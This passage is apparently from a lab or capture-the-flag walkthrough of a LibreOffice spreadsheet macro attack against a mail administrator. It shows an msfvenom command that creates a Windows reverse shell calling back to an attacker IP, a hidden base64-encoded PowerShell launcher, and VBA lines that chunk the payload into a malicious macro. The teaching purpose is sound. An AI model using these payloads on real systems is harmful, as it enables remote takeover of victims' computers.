 ```
...

 BODY[1] {4659}
--Alt-Boundary-10616.1138921265
...

Welcome to Pegasus Mail!

...

tag OK FETCH complete.
```

In these emails, we discover that the `mailadmin@localhost` address is processing spreadsheets. We also discover that the office suite used is LibreOffice. This likely means that it will accept `.ods` or `.xls` files, which might be a good opportunity for a macro attack.

## Exploitation

### LibreOffice Macro

First, let's create a `hta` file that will contain our payload.

```
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.118.8 LPORT=443 -f hta-psh -o evil.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 6618 bytes
Saved as: evil.hta
```

Inside this file, we can find the following command.

```
"powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBT....QAcwApADsA"
```

VBA has a 255-character limit for literal strings, but this restriction does not apply to strings stored in variables.

Our goal is to transform this giant string in smaller chunks, like this.

```
Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
Str = Str + "AUwAyAEIAMABLAEEAQQBBAD0AJwAnACkAKQApACwAWwBTAHkAc"
Str = Str + "wB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgA"
Str = Str + "uAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgBNAG8AZABlAF0AOgA6A"
...
Str = Str + "EQAZQBjAG8AbQBwAHIAZQBzAHMAKQApACkALgBSAGUAYQBkAFQ"
Str = Str + "AbwBFAG4AZAAoACkAKQApACcAOwAkAHMALgBVAHMAZQBTAGgAZ"
Str = Str + "QBsAGwARQB4AGUAYwB1AHQAZQA9ACQAZgBhAGwAcwBlADsAJAB"
Str = Str + "zAC4AUgBlAGQAaQByAGUAYwB0AFMAdABhAG4AZABhAHIAZABPA"
Str = Str + "HUAdABwAHUAdAA9ACQAdAByAHUAZQA7ACQAcwAuAFcAaQBuAGQ"
Str = Str + "AbwB3AFMAdAB5AGwAZQA9ACcASABpAGQAZABlAG4AJwA7ACQAc"
Str = Str + "wAuAEMAcgBlAGEAdABlAE4AbwBXAGkAbgBkAG8AdwA9ACQAdAB"
Str = Str + "yAHUAZQA7ACQAcAA9AFsAUwB5AHMAdABlAG0ALgBEAGkAYQBnA"
Str = Str + "G4AbwBzAHQAaQBjAHMALgBQAHIAbwBjAGUAcwBzAF0AOgA6AFM"
Str = Str + "AdABhAHIAdAAoACQAcwApADsA"
```
